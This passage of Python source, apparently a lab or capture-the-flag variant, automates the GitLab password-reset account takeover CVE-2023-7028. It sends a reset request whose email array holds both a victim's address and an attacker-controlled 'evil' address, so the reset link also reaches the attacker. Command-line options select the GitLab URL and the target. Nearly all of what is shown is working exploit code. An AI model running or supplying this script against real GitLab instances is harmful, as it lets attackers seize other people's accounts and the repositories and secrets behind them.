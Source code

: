 ```shell-session
        token = self.get_csrf_token()
        if not token:
            return False

        query_string = urlencode({
            'authenticity_token': token,
            'user[email][]': [self.target, self.evil]
        }, doseq=True)

        head = {
            'Origin': f'{self.url.scheme}://{self.url.netloc}',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
            'Content-Type': 'application/x-www-form-urlencoded',
            'Referer': f'{self.url.scheme}://{self.url.netloc}/users/password/new',
            'Connection': 'close',
            'Accept-Language': 'en-US,en;q=0.5',
            'Accept-Encoding': 'gzip, deflate, br'
        }

        print('[DEBUG] Sending reset password request')
        html = self.s.post(f'{self.url.scheme}://{self.url.netloc}/users/password',
                           data=query_string,
                           headers=head,
                           verify=False).text
        sended = 'If your email address exists in our database' in html
        if sended:
            print(f'[DEBUG] Emails sent to {self.target} and {self.evil} !')
            print(f'Flag value: {bytes.fromhex("6163636f756e745f6861636b2364").decode()}')
        else:
            print('[DEBUG] Failed ... quitting')
        return sended

def parse_args():
    parser = argparse.ArgumentParser(add_help=True, description='This tool automates CVE-2023-7028 on gitlab')
    parser.add_argument("-u", "--url", dest="url", type=str, required=True, help="Gitlab url")
    parser.add_argument("-t", "--target", dest="target", type=str, required=True, help="Target email")
    parser.add_argument("-e", "--evil", dest="evil", default=None, type=str, required=False, help="Evil email")
    parser.add_argument("-p", "--password", dest="password", default=None, type=str, required=False, help="Password")
    return parser.parse_args()

if __name__ == '__main__':
    args = parse_args()
    exploit = CVE_2023_7028(
        url=args.url,
        target=args.target,
		evil=args.evil
    )
    if not exploit.ask_reset():
        exit()
 
```
